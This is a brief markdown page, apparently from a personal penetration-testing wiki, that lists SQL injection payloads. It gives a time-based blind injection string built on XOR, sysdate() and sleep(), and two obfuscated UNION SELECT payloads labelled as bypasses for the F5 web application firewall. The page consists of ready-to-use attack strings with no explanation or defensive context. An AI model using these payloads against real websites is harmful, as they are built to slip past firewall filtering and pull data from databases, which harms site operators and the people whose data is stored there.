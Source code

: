 # General

Sysdate/Sleep/XOR:

```
`0'XOR(if(now()=sysdate(),sleep(6),0))XOR'`
```

# F5

F5 [[content/Web/Payloads/WAF Bypass|WAF Bypass]] 1:

```
+{`nothing`/*str*/(')}div%0B1+'
+{`nothing`/*str*/(')}div%0B0+'
```

F5 [[content/Web/Payloads/WAF Bypass|WAF Bypass]] 2:

```
{`noth`/*ing*/821}+union+%23%0a+distinctrow%0b/**/select+1,2,3--{`nothing`/**/TRUE}
```


